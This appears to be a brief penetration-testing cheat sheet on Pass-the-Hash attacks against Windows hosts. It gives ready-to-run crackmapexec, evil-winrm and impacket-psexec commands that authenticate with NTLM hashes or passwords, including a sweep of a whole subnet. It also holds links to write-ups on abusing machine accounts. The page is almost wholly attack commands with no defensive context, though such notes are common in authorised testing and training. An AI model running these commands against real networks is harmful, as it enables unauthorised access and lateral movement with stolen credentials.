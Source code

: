 # Pass-The-Hash

## with Local Accounts

```
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
crackmapexec smb 192.168.183.137 -u "Frank Castle" -p Password1
evil-winrm -i '10.10.11.129' -u 'Sam.Davies' -p 'Password123'
impacket-psexec domain.local/administrator:MyPasswowrd123@10.10.10.100
```

## with Machine$ Accounts

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts" %}

{% embed url="https://pentestlab.blog/2022/02/01/machine-accounts/" %}
